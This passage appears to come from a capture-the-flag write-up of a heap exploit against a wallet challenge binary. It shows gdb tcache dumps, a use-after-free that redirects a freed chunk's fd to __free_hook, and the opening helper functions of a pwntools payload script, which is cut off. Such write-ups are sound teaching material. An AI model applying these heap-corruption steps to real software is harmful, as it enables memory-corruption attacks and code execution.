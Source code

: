 ```shell
[+] For Your Information..
0x7f48c7727c20 <__memalign_hook>:	0x00007f48c73d3410	0x00007f48c73d4790
0x7f48c7727c30 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7f48c7727c40 <main_arena>:	0x0000000000000000	0x0000000000000000
0x7f48c7727c50 <main_arena+16>:	0x0000000000000000	0x0000000000000000
```



Then, we can overwrite the freed chunk's fd using the function 6 (**use-after-free**), and also overwrite the chunk's content using the function 6. So after we manipulate chunk's fd, we can allocate the chunk in manipulated location, and overwrite some value on there. When overwrite the freed chunk's fd, the context of tcache chains are like below.

```shell
gdb-peda$ heap freed
TCACHE: 0x5628d77f8010
counts: 1
0x5628d77f8790 SIZE=0x70 DATA[0x5628d77f87a0] |....n...........................| INUSED PREV_INUSE
overlap at 0x7f6efaaee8d8 -- size=0x0
'NoneType' object is not subscriptable
FASTBINS:
UNSORTBINS : 
bins 0 : 
0x5628d77f82e0 SIZE=0x420 DATA[0x5628d77f82f0] |....n.......n...................| PREV_INUSE INUSED

gdb-peda$ x/gx 0x5628d77f87a0
0x5628d77f87a0:	0x00007f6efaaee8e8

gdb-peda$ x/gx 0x00007f6efaaee8e8
0x7f6efaaee8e8 <__free_hook>:	0x0000000000000000

=========== chain like =============
gdb-peda$ x/10gx 0x5628d77f8790
0x5628d77f8790:	0x0000000000000000	0x0000000000000071
0x5628d77f87a0:	0x00007f6efaaee8e8	0x0000000000000000
0x5628d77f87b0:	0x0000000000000000	0x0000000000000000

gdb-peda$ x/10gx 0x00007f6efaaee8e8 - 0x10
0x7f6efaaee8d8 <_IO_stdfile_0_lock+8>:	0x0000000000000000	0x0000000000000000
0x7f6efaaee8e8 <__free_hook>:	0x0000000000000000	0x0000000000000000
0x7f6efaaee8f8 <next_to_use.11802>:	0x0000000000000000	0x0000000000000000
```



# Payload

```python
#!/usr/bin/python
from pwn import *

def Create(eth):
	r.sendlineafter('select your choice : ', '1')
	r.sendlineafter('how much initial eth? : ',str(eth))

def Withdraw(num, eth):
	r.sendlineafter('select your choice : ', '3')
	r.sendlineafter('input wallet no : ', str(num))
	r.sendlineafter('how much you wanna withdraw? : ', str(eth))

def Show(num):
	r.sendlineafter('select your choice : ', '4')
	r.recvuntil(str(num)+') addr : ')
	leak = int(r.recvline().split(' ')[2],10)
	return leak
```